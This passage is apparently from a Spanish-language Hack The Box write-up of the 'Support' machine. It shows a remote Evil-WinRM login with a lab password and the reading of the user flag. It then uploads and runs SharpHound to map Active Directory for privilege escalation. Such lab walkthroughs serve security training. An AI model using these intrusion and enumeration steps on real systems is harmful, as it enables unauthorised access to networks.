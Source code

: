 ```bash
➜  content evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents> type C:\Users\support\Desktop\user.txt
05e7a42ec2aa2d13e6eaee5383b2ed97
*Evil-WinRM* PS C:\Users\support\Documents>
```

## Escalada de privilegios

- Para enumerar la maquina y poder ver vias potenciales de elevar nuestros privilegios vamos a usar **Bloodhound** <https://www.kali.org/tools/bloodhound/>.

- Para eso vas a necesitar descargar el **.zip** <https://github.com/BloodHoundAD/SharpHound>.

```bash
➜  content unzip SharpHound-v2.3.3.zip
Archive:  SharpHound-v2.3.3.zip
  inflating: SharpHound.exe
  inflating: SharpHound.exe.config
  inflating: SharpHound.pdb
  inflating: SharpHound.ps1
  inflating: System.Console.dll
  inflating: System.Diagnostics.Tracing.dll
  inflating: System.Net.Http.dll
```

- Ahora lo subimos.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/miguel/Hackthebox/Support/content/SharpHound.exe

Info: Uploading /home/miguel/Hackthebox/Support/content/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe

Data: 1791316 bytes of 1791316 bytes copied

Info: Upload successful!
```

- Ahora lo ejecutamos.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> .\SharpHound.exe -c All
```
